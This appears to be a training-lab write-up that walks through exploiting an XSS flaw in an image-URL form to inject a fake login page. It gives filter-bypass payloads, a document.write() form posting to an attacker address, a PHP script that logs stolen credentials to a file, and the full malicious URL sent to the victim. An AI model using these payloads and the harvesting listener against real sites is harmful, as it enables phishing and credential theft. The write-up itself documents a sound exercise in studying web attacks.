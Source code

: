 # Phishing

### Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

In many online forums and web applications, there are opportunities to manipulate how a page displays content through a technique known as Cross-Site Scripting (XSS). XSS is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. When we attempt to use a basic XSS payload, we might find that it doesn’t execute as expected, often resulting in an error icon that indicates a broken image link. This is a common issue when the application has security measures in place to prevent such injections.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-30-03 (3).png" alt=""><figcaption></figcaption></figure>

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.
   * {% code overflow="wrap" %}
     ```html
     <html lang="en">
     <body style="background-color: #141d2b; font-family: sans-serif; color: white;">
         <!-- --SNIP-- -->
         <img src='test'>
     </body>
     </html>
     ```
     {% endcode %}

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```markup
<script>alert(1);</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use alternative tags or attributes;
   * Incorporate Special Characters:&#x20;

```html
'><script>alert(1);</script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-32-28 (2).png" alt=""><figcaption></figcaption></figure>

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```html
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 5: Setting Up the Listener

1. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

{% code overflow="wrap" %}
```html
http://YOUR_SERVER_IP/phishing/index.php?url='><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.32><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()</script>;<!--

```
{% endcode %}

2. **Send the URL**:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-24-24 (2).png" alt=""><figcaption></figcaption></figure>

2. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-12 (2).png" alt=""><figcaption></figcaption></figure>

### Step 7: Test the captured the credentials

1. Go to http://SERVER\_IP/phishing/login.php and enter the captured credentials to retrieve the flag:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-47 (1).png" alt=""><figcaption></figcaption></figure>











